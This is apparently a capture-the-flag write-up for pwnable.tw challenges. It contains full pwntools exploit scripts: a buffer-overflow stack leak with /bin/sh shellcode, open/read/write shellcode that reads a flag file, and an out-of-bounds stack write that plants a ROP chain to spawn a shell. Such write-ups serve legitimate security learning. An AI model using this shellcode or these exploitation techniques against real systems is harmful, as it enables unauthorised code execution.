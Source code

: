# pwn.tw

## 01 start
checksec, RWX segment existed. maybe shellcode can be used.

a ASM program, calling some sys_call, like `sys_write`/`sys_read`.
and reading process is a BOF vulnerability, length of buffer is enough for a simple ROP.
hijack the second argu of `sys_write` to print out the stack info, then ret2shellcode.

```py
#!/bin/python3

from pwn import *

# io = process("./start")
# gdb.attach(io, 'b*0x08048087\nc')
io = remote("chall.pwnable.tw", 10000)

payload = b''
payload += b'A' *20
payload += p32(0x08048087)

io.sendafter(b'CTF:', payload)

stack_addr = u32(io.recv(4))
buf_addr = stack_addr - 4

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

payload2 = b''
payload2 += b'A'*20
payload2 += p32(buf_addr + 20 +4 )
payload2 += shellcode

io.sendline(payload2)

io.interactive()
```

## 02 orw

a shellcode challenage, but syscalls we can use is limited to open/read/write.

we can not launch a shell directly, but these three calls are enough to read a flag with known path (which is provided by the hint).

we will open the flag and read it to buffer, and write it to stdout.

man syscalls and `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`:
```
int open(const char *pathname, int flags);		#define __NR_read 3
ssize_t read(int fd, void *buf, size_t count);		#define __NR_open 5
ssize_t write(int fd, const void *buf, size_t count);	#define __NR_write 4

path is `/home/orw/flag`, 14 bytes.
```
- pwntools
	- pwnlib.shellcraft
		```py
		shellcraft.i386.pushstr('/home/orw/flag')
		shellcraft.i386.linux.syscall('SYS_open', 'esp')
		shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
		shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
		```
		that is:	
		```
		push '/home/orw/flag\x00'
		call open('esp')
		call read('eax', 'esp', 0x50)
			// eax is previous call's ret value, which is opened fd.
		call write(1, 'esp', 0x50)
		```
- asm
	- argu:
		- eax: calling num
		- ebx/ecx/edx/esi/edi: argu1/2/3/4/5
	- crafting:
		- push '/home/orw/flag\x00'
		```
		'///h' <-esp
		'ome/'
		'orw/'
		'flag'
		'\x00'
		```
		crafting the asm code:
		
		```py
		shellcode = ''
		shellcode += 'xor eax, eax\n push eax\n'
		
		temp = hex(u32(b'flag'))
		shellcode += 'push '+ temp + '\n'

		temp = hex(u32(b'orw/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'ome/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'///h'))
		shellcode += 'push '+ temp + '\n'
		```

		- call `open('esp')`
			- eax: 5
			- ebx: buf(esp)
			- call
		
		```py
		shellcode += 'push 0x5\n pop eax\n'
		shellcode += 'mov ebx, esp\n'
		shellcode += 'int 0x80\n'
		```
		
		- call `read('eax', 'esp', 0x50)`
			- eax: 3
			- ebx: eax(fd)
			- ecx: esp(buf)
			- edx: 0x50(len)
		
		```py
		shellcode += 'mov ebx, eax\n'
		shellcode += 'push 0x3\n pop eax\n'
		shellcode += 'mov ecx, esp\n'
		shellcode += 'push 0x50\n pop edx'
		shellcode += 'int 0x80\n'
		```

		... omitted...

## 03 CVE-2018-1160
too hard for me...

## 04 calc
it's a buggy calculator. i spent a lot effort on reversing, and finally find a OOB(out of bound) write vulnerability, which allows user to write 4 bytes on stack. 
This overwriting on stack performs in a infinete while loop, which makes control flow hijacking and ROPchian injection possible.

after triggerring the OOB write so many times, ROPchain is injected to the stack, and then, overwrite the ret_addr to our beginning of chian.  A typical ROP attack is performed.
```py
#!/bin/python3

from pwn import *

# context.log_level = 'debug'

# io = process('./calc')
io = remote('chall.pwnable.tw', 10100)
# gdb.attach(io, 'b*0x08049433\nc')

def write_stack(offset, value):
    payload = b''
    payload += b'+'
    payload += str(int(offset-1)).encode()
    payload += b'+' + str(value).encode()
    io.sendline(payload)
    print(payload)
    return

io.recvuntil(b'calculator ===')
offset = 361
chain = b'\xaa\x01\x07\x08`\xc0\x0e\x08K\xc3\x05\x08/bin\r\xb3\t\x08\xaa\x01\x07\x08d\xc0\x0e\x08K\xc3\x05\x08//sh\r\xb3\t\x08\xaa\x01\x07\x08h\xc0\x0e\x08\xd0P\x05\x08\r\xb3\t\x08\xd1\x81\x04\x08`\xc0\x0e\x08\xd1\x01\x07\x08h\xc0\x0e\x08`\xc0\x0e\x08\xaa\x01\x07\x08h\xc0\x0e\x08\xd0P\x05\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08\x7f\xcb\x07\x08!\x9a\x04\x08'

now = 0
length = len(chain)
times = length / 4
#361~ 361+times-1
offset = offset + times -1
while(times>0):
    write_stack(offset, u32(chain[-4:]))
    offset = offset -1
    chain = chain[:-4]
    times = times-1

io.sendline(b'')

io.interactive()
```
